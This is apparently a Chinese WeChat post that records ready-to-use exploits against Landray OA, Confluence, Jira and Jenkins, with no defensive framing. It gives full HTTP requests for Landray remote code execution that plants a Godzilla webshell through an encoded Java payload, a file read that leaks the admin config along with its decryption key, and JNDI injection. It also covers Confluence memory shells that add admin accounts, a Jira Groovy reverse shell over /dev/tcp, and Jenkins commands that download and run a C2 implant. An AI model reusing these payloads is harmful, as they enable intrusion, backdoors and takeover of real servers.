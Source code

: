 #  漏洞利用记录(蓝凌&Confluence&Jira&Jenkins)

原创 carrypan  [ 安全艺术 ](javascript:void\(0\);)

**安全艺术** ![]()

微信号 AnQuanYiShu2022

功能介绍 安全培训、渗透测试欢迎来聊

____

___发表于_

收录于合集

最近测试攻入内网，碰到了很多漏洞，有些还需要去查找poc利用，比较浪费时间，还是简单记录下，方便后续查找吧，也有很多都是直接工具集成利用的，懒得整理了，有需要的可以公众号私信获取。

 **1、蓝凌OA前台sysSearchMain.do远程命令执行**

直接写入哥斯拉马

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0Content-Length: 6882Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Cache-Control: no-cacheContent-Type: application/x-www-form-urlencodedPragma: no-cacheUpgrade-Insecure-Requests: 1Accept-Encoding: gzip  
    var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=<java><void+class%3d"com.sun.org.apache.bcel.internal.util.ClassLoader"><void+method%3d"loadClass"><string>$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$b5X$5bs$db$c6$V$3e$b4$rSV$e88$91$e3$5b$92$sM$da4$ce$c5$WH$8aQ$Y$3bI$F$8a$A$c1$L$q$R$q$40$mmS$dc$E$80$c4$z$E$u$Sl$7fNg$fa$9c$X$b9S$cf$f4$H$f4$P$f5$ad$d3$b3$e0M$92e$3b$cd$b4$f6$I$Ev$cf$9e$3d$e7$3b$d7$dd$7f$fe$fb$ef$ff$A$80$o$fcy$T$de$87$c7Yx$b2$JW$e0$f1$s$7c$N$df$90$c7$b7$h$f0$dbM$d8$Dz$T$w$b0$bf$JU$606$81$85$da$spP$cfB$p$L$cdM$b8$B$8f7$a0$b5$J$f7$80$t$l$H$hpH$7e$8f6$n$H$ed$N$Q$b2$d0$d9$84$3b$84$7b$97$fc$8a$h$m$R$e2$k$99$97$c9C$c9$c2wY$f8$5d$G$ae$3dq$7c$t$fe$s$DW$l$7c$of$60$ad$S$Yf$Gn6$j$df$e4G$9ef$O$3b$aa$e6$e2$c8V3$d0UWT$87$O$f9$9e$P$ae$c5$b6$T$919F$8d$e2z$U$f8U$dd$O$e8J$b5$f98$D$9b$d5$89n$86$b1$T$f8H$b1$e6$a9$8e$9f$81$3b$P$bek$f6$d5$Tu$dbU$7dk$5b$88$87$8eo$3dN$b7U$87$W$92$dd$bad$3a$D$hOtw$n$a4$ee$o$d9$9bg$a8$w$ae$gEH$b4$W$aa$b1MD$b9$84A$$$c4$97X$g$3a$b19$yd$e0$f6$8c$c6$J$b6$PW$e3H$b6$k$d9$a6$ebf$mk$98$3a$a20$cc$c0$bdf4$f2$b7$3d$t$d2$b7$e9$3d$a1$fa$c5$ce$fel$86$f0$9c$R$cd$f6$c8$c0$N$nV$f5AK$NSd$Q$5c$E$40$IFC$ddd$i$82$d4$ed$8b$I$3d$o2$e4$e0$97$f0A$G$de$b88$99$85$df$e7$e0$P$f0$7d$O$fe$I$wZC$8b$ecG$9c$8fR$86C$T$9fY$d0r$a0$83$91$F3$H$c7$60e$c1$ce$81$D$fd$y$Mr$e0$82$97$F$3f$H$B$84$I$e8$r$9af$e0$eeE$8c$e8$91$e3$a6$Kg$a5$w$fd$90$e3$99$i$fc$A$c3$iD$Q$p$dan$609$fe$f7$ae$T$c5$89$Z$3d$eaGa$OF$Q$S$d9O27$febJ$dd$_$ebB$d5$ea$W$db$89$w$95$7c$aef$f7$P$Fn$wO$V$b7$c5r$3br$c7$ed$b7$3a$dd$a4$d5o$db$5c$3f$3aCG$dbz$b1U$e6$7c$d7$d5$Tn$97cxJ$f7$dc$91$92$d0$b1$b2$df$zk$d2Q$be1$a3$Z$9al$x$3cH$e8$be$c62S$3d$a1e$8e$Vw$MV$i$v$b5$96uT$98$m$N$df$d2$K$cc$40$e9$d5w$f5$9a$e8h$ac$db$e7$Y$x8$3f$c7Y$a6$e3$ee$eaEq$8c$ef$81$e9$Mv$8f$7bt$5e$f6$s$a1$9c$d0$fbs$de$ed$G$5b$_$no$ad$t$d0$7d$99$d0$7b$oe$f4$ea$p$ae$c6$e7uVL$9a$5e$dbU$88$9c$5d$3e$92$7b$fc$b4$c1$f2N$b3$b27nV$I$7d$vRP7$83$b5$c2$83$oe$9d$e1$ef$98$bd$b6$x$e5$v$cb$ac$d8$cbw$3d$998Z$a1$8ck$98$R$c7R$a1$99$d0$94$ee$bb$bb$aa$c7$U$e4$9e5$92$8b$f5$92$5ek$9f4$H$7c$a8$b3$b6$ab$3bt$ffP$Km$c3cv$9a$k$9f$98$3d$9a$d2$92$d2$be$da$a3$D$d4i$a4$UDJ$90JS$83eFr$a1$hp$D$86$e9$s$5cxPh$8d$Q$f3$d0$a8$d8$f1$e1$b4$faE$cb$99$8c$94$9en$3d$b7$8f$cf$8f$V$a95$ea$W$c4$3e$d1$5b$u$88$a5n$91v$e5$c4$de$91$93$92$af$f4$da$V$o$bb$9eXa$b3R$a7$dbb$cbi$I$83$VFlk$a4$b0e$W$f7$b2$b5$8a$3dmt$o$ebX$e2m$83$e5$D$aeb3$s$cb$bb$b8O$a8$Vv$yE8$83$z$5b$cak$ecx$97$ab$e5$cb$e8$X$L$cc$88$k$94$w$b5V$3e$c3$e6$H$bc$60w$8cZ$3d$d4$3c$j$f1$hXf$7e$e97$89$d2$3b$b2$O$FzdH$93$e8$A$d7$98$C$3d$c3R$uM$V$J$ed$e7$b9$94$v$94x$F$ed$sK$86$dbf$5d$d4$89$a7$Q$fb$5dM$d8$xs$y$c1$b6$3a$d2Q$7f$94$x4j$83QG$S$a7z$81$f1$95n$3bD$7c$a7F$r$c5$a1$ae$f9$3c$rK$a5$be$oXN$a7$7b$94$e7$d0$9f4$a1$84$3e$d2F$7d$bb$81$fe$i$5e$a9$8fL$9b$de$c4$d5$3c$83R$xV$d8$e8$c4K$99$97$f6$QJ$b1$dck$H$cdA$3dT$uw$84$be$e8$T$7fm$Jc$L$f9$PT$94$5b$_$k$F$88$3b$ce$95$XX$E$ad$8e$i6$fd$f6$89$d8$a3$d1$bf$eb$fb$e8$9bn$a3$82$3eN$fc$b8$d7$ee$ab$95$bd$a0$dd$b3$fb$K$fa$8c$w$95$R$f3n$c8$d5$e2$f2$ca$bf$eb$ae$b1$8f$f6$S$e8$b1$n$d5$p$82$bb$5e$q$ba$90XZb$ec$Q$be$7c$bf$cdh$k$7f$a2$a0$9e$b2$efR$8a$Y$h$i$5b$9f6$E$e4$5d$ab$9f$Y$c5$96un$afZ$bc$88$af$f9$fa$a3$ddU$kPl$ad$s$ba$dc$3eei$be$Yi$fb1$c6$A$da$b5P$b7$f5B$b7$c0$ef$e7$e7kK$9eV$ac$l$c8R$k$f5$aa$ff$m$f7$U$bb$e9$8b$c8$7f$3c$3a$f2$98$a9$d2$91$vb$83N$a1$fe$D$da$9a$e2$aa$o$c6$409$8d$7b$c4w$b1o$g$phSJe$cb$D$e4Cl4$d7EL8g$3c$93$a12$m$f1R$d0$K$b1$8b$f9$60$sGe9$b7$8b$f1$X$ZR$X$f9$ee$F$L$3d$g$dd$e5$7e$e9$k$b3$dc$d3B$3b$a5$7e$80$3e$d7$O$b4$c2Q$c0ys$3a$b1$7d$b2$c4$80$ec$eb$89E$ae$3a$cb$vi$9eX$e5$M$a4Oy$a1m$ce$c8$b5$d2$_$c2$f8q$8d$84$3e$94$bd$d0$95$8bm$92$bbv$89$3d$b8$g$95$e6$n$b9$c0Pr$c1$b2p$cd$8e$5c$Q$c7h$d3$T$cd$a1$5d$b4$d7$$$faO$89$abE$96$3c$c7$f0p$9e$d7$9a$9er$a2$P0$8e$r$cc$p$3e$9f$d7$9cR$ac$f6$f8$3e$fa$r$dd$a5$Q$8f$d5$fe$O$89$f3W$e1N$f4$3b$9b$9b$c8$9a$ff$J$8e$c2R$ff$99$9f$e4$d1$X$89$3es$bf$c4$3c$99$eaC$b0h$a2$P$h$5ey$a8$I$f6$d2$e6$Y$93i$ec$z$e4_$60$8f$beZ$c6$f8$c4$9c$f0$82$fc$d5$e1$d2$f89$eea$dc$d4$c4$E$f1$y$c8$d2$q$aft$5e$QC$ab$ba$b2$88$a1$w$ee$97$c6$d0$w$bf$fdw1$b4$8c$bd$ffW$M$b1m$f7$t$c6$d0$5c$97$9f$XC$L$3d$g$d2r$bfW$d8$7eN$f7$C$db$_$f0$7c$81$ed$H$LY$7f$b6$ed$F$c4v$5e_8$f6$a5$YO$Nig$a4I$ee$U$ebg$e5H$e4$99$95$dd$JV$83$5d$aeZvT$P$ebM$85$5e$caE$ec$b8$88$c7$a6$87$faa$j$m$7e$84$3e$9b$e6$f4$b3$f6$5e$f5$x$eeJ$_$cfp$8dy$$A$fa$8b$f6Z$d0U$MI$f1H$fc$$p$98$f7K$b3$fc$b1$cc$f9$a5E$dfUF$3b$84$9a$af$9c$a8$Y$bf$b8$be$af$V$b0$b6$zs$d7$5c$Pf$R$7fi$bezY$fdIH$fe9$ee$e5$b1$G$b6$b16$ef$y$f2$B$eaG$b9$87$fd$b1Kr$T$fa$f0$on$G$c8$c7$3e$94$e6xW$X$3e$60$e3z$sO$eax$aa7$83$3d$a3$c7$c4$K$a9$bb$8e$3dN1$409$U$ec$r$e4N$7e$a7$91$d6$e7$w$fa$N$c1$Q$f1$ec$c4$a1$e2$ec$FX$f3$b1$ce$93$bc$98$fa$gm$d4$88$P$d5$f3$a4$96s$3em$9b$d2$e4D$96$8e0$d7Q$e5$99$Pc$ff$b2Z3$7d$d9$9a$e6$ccG$e5F$ad$j$a8$bd$d6e$be$3d$f3$j$8a$d0$T$b9$b17$QJ$ed$b9$ac$a4O$u$x$d2$E$f7$88W$ba$fa$3c$da$98$a1H$fd$971$86I$l$a2$b3LB$fc$O$f1J$b0$a7$8eR$9dQ$f7y_$Rb$af$98$f6$pG$bdz$o$f7$dcC$a3$d7$k$e3$l$e9$n$5cYB$9f$c3$f1NQ$a4$O$a5T$deY$7e$f0$5c$ec$3fS$h$d0$ba_$b7$cdn9o$60$8ff$a4$fe$n$da$9a$80$bd$$$b5$f4a$efPX$f4$dd$ad$f0$tc$8au$ed$f9$fa$Q$7bMO$9c$Y$S$T$e9$89m$e3$de$u$ef$R$f6$b2$f2$88$60$80$b9vJ$ce$H$88$e5$beV$uQJ$cf$a6f$fd$U$3f$c6$ef$a92$c3$b5Gz$3e$d2$3f$n$9e$c5$f4$5d$b0$c9$f9$C$e3It$f4E$cd$d9$df$8bH$ff$94$ee$e9$af$ea2$895$d4q$aa$b3e$ec$J$bb$a9$dd$c4$o$f6$85$88$_$89$x$p$7d$c7$kh$k$abm$ec$HIL4jV$b0$c0$92$f0$3b$o$f9$ad$cb$q$e8$97$r$5c$Xq$88$D$fay8$ef$9d_$c9$9f$9c$85$d0$dey$d9_$c4$a45$e1$9d$c1$ec$8c$f1$92$fe$faX$e8$7e$a6$8f$bf$fe$gO$de$97$ld$f1$ecy$f1$y$98$831L$f00$dc$ed0$P$bf$q$87$bc$q$HS8$c9$c1$9f$c8Q$f5$d6$8a$7cy$be$3f$c7$e4$40$eb$9bz$7cn$a8c$PM$d5$c03$b2$3e$g$OM$3f$5e$7c$bf$f5$e0$93$e6E$w$3cY$df$b6$cc$b8$S$e0iw$S$a7$87$fbf$a0$a6$92$de$3fG$7ef$8a$ac$b9t$o$D$d7$5d$7cIG2$f0$d1$83K$ee$k$$$b9I$b8ya$I$95F$89$O$87A$8c$8a$a1$ba$fb$c1$ec2$e3$c3$85$3c$91$89$8a9q$b2$7d$91$G$99$bd$f7r$K$E$r$d5$d60g$97$F$Zx$f79$ae$abY$e4w$efEs$Zx$N9$91K$9a$b9I$W$7c$7c3$de$ee$b6$c9$8dL$ee$ec7$9e$f5$89V$e9$a5$c9yC$y$afM$d6$a3$d0u$d0$94$l_$G$dc$a575$d7$d404$7d4$ed$c3W$60$7d$ee$da$81$5c$f1$c4$c1$e2$s$e5$f6eK$c5$e5$85$L$3d$3a$3e$s$96$bds$a9Pt$G$ee$3e$f8$8e$be$9cC6$bd$Gr$R$9cu$dd$N$o$T$3e$80$x$f0$3e$90$7fW$nC$aeb$f0$fb$c3$f4n$$$83$ff$B$d6$3f$7d$K$99$l$f1$e5$K$fc$K$9f$e4$9e$O$Ha$N$ae$c1$af$f1$z7$p$82$8f$e07$f8$fb1$fe$ad$e1$c8$7bp$j$k$c0$tsV$bb$f8K$a8$ae$3f$83$x$f2S$b8$w$5ddw$j6$f0m$c5$ee$3a$7c$K$9f$9dc$b7$B$9f$a3d$Z$c2$$s$V$b7$bb$863$f6$df$60$ed$U$d6$b7$ae$9dB$b6$f1$e9$vl$9c$c2$f5S$d8$3c$85$d7$9a$cf$m$t$3f$83$h$b8$d9$eb$9fm$dd$3c$857$ae$WN$e1$cd$ad$z$7c$9c$c2$ad$a7$f0Vk$eb6$ff$M$ee$m$c1$dd$af$d6$9e$c1$3d$f9$fe$da$c3S$b8$bf$f5$f6Sx$e7$ab$f5$cf$ef$af$9f$c2$bb$9f$9f$c2$_$fe$Kk$8d$lS$99t8F9$ae$a6R$3f$82$d7$f0$f9$3aJ$7b$T$de$867$e0$J$bc$J$df$c2$W$d4$e0$W$c8$f0$W$7c$P$b7$91$fe$$$ae$b8$D$W$dcO5$fb$Ge$ce$81$E$Pq5$e0$w$O$b6$81B$ceOP$cb$3c$U$Q$87o$91$ae$88cW$91$cf$3b$b0$D$r$d4$5dF$5c$be$c0$b1u$E$91$e0r$e5_p$9c$85$_$R$F$u$a7$m$7e$f5$l$fci$9akK$V$A$A</string><void+method%3d"newInstance"></void></void></void></java>

访问路径/login_listyes.jsp，密码：yes

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093333.png)

 **2、 蓝凌OA前台任意文件读取**

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0Content-Length: 60Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Cache-Control: no-cacheContent-Type: application/x-www-form-urlencodedPragma: no-cacheUpgrade-Insecure-Requests: 1Accept-Encoding: gzip  
    var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093334.png)

解密密码：kmssAdminKey  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093335.png)

后台地址：/admin.do

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093336.png)

 **3、蓝凌OA后台JNDI远程命令执行**

###

登录后台

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /admin.do HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeCookie: Content-Type: application/x-www-form-urlencodedContent-Length: 69  
    method=testDbConn&datasource=rmi://******:1099/remoteExploit7

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093337.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093339.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093340.png)

 **4、Confluence写入内存马**

直接上工具，利用CVE-2022-26134写入内存马 **  
**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093341.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093342.png)

在请求配置中添加如下内容：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093343.png)

利用后渗透插件，一键添加Confluence管理员账号：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093344.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093345.png)

 **5、Jira getshell**

查看版本信息，路径：/secure/admin/ViewSystemInfo.jspa

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093347.png)

下载对应插件版本

  * 

    
    
    https://marketplace.atlassian.com/apps/1218755/mygroovy/version-history

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093348.png)

进入插件管理，上传插件，路径：/plugins/servlet/upm

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093349.png)

上传后访问，/secure/JMWEGroovyScriptTester.jspa，执行如下命令

  *   *   * 

    
    
    def r = Runtime.getRuntime()def p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093350.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093352.png)

 **6、Jenkins getshell**

路径：/jenkins/script

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093353.png)

  * 

    
    
    println "wget http://ip/c2".execute().text

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093354.png)

  * 

    
    
    println "ls -lt".execute().text

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093355.png)

  * 

    
    
    println "chmod +x c2".execute().text

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093356.png)

  * 

    
    
    println "./c2".execute().text

执行完直接上线cs

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

